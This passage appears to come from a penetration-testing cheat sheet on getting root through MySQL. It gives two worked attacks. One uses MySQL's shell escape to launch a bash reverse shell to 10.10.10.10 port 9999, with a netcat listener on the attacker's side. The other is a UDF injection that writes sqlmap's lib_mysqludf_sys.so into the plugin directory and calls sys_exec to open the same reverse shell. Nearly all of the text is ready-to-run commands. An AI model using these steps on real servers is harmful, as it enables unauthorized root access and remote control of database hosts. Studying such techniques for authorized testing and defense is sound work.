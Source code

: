 Example 2

Victim
```ps1
ps aux | grep root

mysql -u root -p

\! bash -i >& /dev/tcp/10.10.10.10/9999 0>&1
```
Attacker

```ps1
nc -lvnp 9999
id && whoami
```

## __MySQL UDF (User-Defined Functions) Code (UDF) Injection__

User Defined Function (UDF) is a piece of code that extends the functionality of a MySQL server by adding a new function that behaves just like a native (built-in) MySQL function, such as abs() or concat()
UDFs are useful when you need to extend the functionality of your MySQL server
For penetration testing, we can include a UDF inside our database that loads a library that has the ability to execute commands via the sys_exec() function which gives us code execution

Example 1 - Reverse Shell 

Download UDF (Linux - 64 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/64
Download UDF (Linux - 32 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/32

Victim
```ps1
ps aux | grep root                        //  Verify that MySQL is running as root
Save the UDF in the /tmp folder ( Example: /tmp/lib_mysqludf_sys.so)
mysql -u root -p

mysql> use mysql;
mysql> create table admin(line blob);
mysql> insert into admin values(load_file('/tmp/lib_mysqludf_sys.so'));
mysql> select * from admin into dumpfile '/usr/lib/lib_mysqludf_sys.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('bash -i >& /dev/tcp/10.10.10.10/9999 0>&1');

// Any UDF library can be used , as long as it is exploitable via the sys_exec() function
// The "admin" table name can be named anything
// Ensure that the path to the UDF (.so) is correct
// Replace IP & Port
```
Attacker
```ps1
nc -lvnp 9999
```

